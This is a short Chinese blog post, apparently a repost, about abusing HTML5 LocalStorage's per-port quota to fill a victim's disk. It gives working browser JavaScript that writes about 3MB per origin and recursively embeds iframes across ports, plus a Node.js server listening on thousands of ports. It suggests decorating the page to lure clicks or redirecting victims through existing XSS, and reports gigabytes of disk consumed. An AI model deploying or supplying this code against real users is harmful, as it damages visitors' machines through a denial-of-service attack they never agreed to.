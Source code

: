 ```yaml
---
title: LocalStorage 的一个漏洞
date: 2016-02-07 21:12:04
tags:
  - html5
categories:
  - 安全
---
```



LocalStorage 是 html5 的本地存储，其中的内容以文件的形式保存在本地磁盘中。

一个域（协议+域名+端口）的文件大小PC端为5~10M，移动端不大于2.5M。

但是我们可以在端口上做点手脚，因为端口是可控的，我们可以开一个服务器监听很多个端口，然后输出的页面使用iframe进行递归包含。

比如我们的页面可以嵌入以下代码：<!--more-->

```
(function(){
    var maxPort = ...;

    // 写文件
    var s = "";
    for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
    }
    localStorage.setItem('k', s);

    var port = parseInt(location.port) + 1;
    if(port > maxPort) return;

    if(port % 50 == 0){
        //每50个重定向一次，防止崩溃
        window.location.href = url;
    } else {
        // 新添加iframe
        var url = "http://example.com:" + port;
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
    }
})();
```

之后我们用Node.js架设服务器：

```
var http = require('http');
var fs = require('fs');

var content = fs.readFileSync('./index.html');

var maxPort = ...;

for(var port = 1000; port < maxPort; port++){
    http.createServer(function (request, response) {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
    }).listen(port);
}
```

我们可以给页面加点装饰，诱导用户点击。也可以使用现有的XSS漏洞重定向过去。

测试结果

100个端口有几乎500MB

![](http://litten.github.io/assets/blogImg/localstorage3.png)

200个端口则有1.17个G

![](http://litten.github.io/assets/blogImg/localstorage4.png)

如果将端口调整至2000个

![](http://litten.github.io/assets/blogImg/localstorage5.png)

GG。

注

来源：[作为一个前端，可以如何机智地弄坏一台电脑？](http://litten.github.io/2015/07/06/hack-in-localstorage/)
